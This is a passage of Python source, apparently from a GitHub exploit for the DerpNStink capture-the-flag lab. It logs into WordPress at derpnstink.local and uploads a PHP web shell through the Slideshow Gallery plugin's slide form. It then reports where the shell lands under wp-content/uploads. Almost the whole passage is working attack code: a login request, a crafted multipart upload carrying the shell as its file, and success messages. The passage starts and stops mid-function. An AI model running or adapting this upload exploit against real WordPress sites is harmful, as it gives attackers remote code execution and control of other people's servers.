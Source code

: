 ```

    data = 'log='+username+'&pwd='+password+'&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1'

    global s
    s = requests.Session()
    return s.post('http://derpnstink.local/weblog/wp-login.php', headers=headers, cookies=cookies, data=data, verify=False)


def upload_shell(shell,shell_name):
    global s
    headers = {
        'Host': 'derpnstink.local',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'multipart/form-data; boundary=---------------------------323205443534659833621751587321',
        'Content-Length': '1999',
        'Origin': 'http://derpnstink.local',
        'Connection': 'close',
        'Referer': 'http://derpnstink.local/weblog/wp-admin/admin.php?page=slideshow-slides&method=save',
        'Upgrade-Insecure-Requests': '1',
    }

    params = (
        ('page', 'slideshow-slides'),
        ('method', 'save'),
    )

    data = '-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[id]"\r\n\r\n\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[order]"\r\n\r\n\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[title]"\r\n\r\nteste\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[description]"\r\n\r\nteste\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[showinfo]"\r\n\r\nnone\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[iopacity]"\r\n\r\n70\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[type]"\r\n\r\nfile\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="image_file"; filename="'+shell_name+'"\r\nContent-Type: application/x-php\r\n\r\n'+shell+'\n\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[image_url]"\r\n\r\n\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[uselink]"\r\n\r\nN\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[link]"\r\n\r\n\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="Slide[linktarget]"\r\n\r\nself\r\n-----------------------------323205443534659833621751587321\r\nContent-Disposition: form-data; name="submit"\r\n\r\nSave Slide\r\n-----------------------------323205443534659833621751587321--\r\n'

    response = s.post('http://derpnstink.local/weblog/wp-admin/admin.php', headers=headers, params=params,  data=data, verify=False)
    print ("[!] Shell upload successfully!")
    print ("[!] The path is /wp-content/uploads/slideshow-gallery/ + shell name!")
    return True

def read_shell(shell):
    with open(shell) as f:
        lines = f.read()

```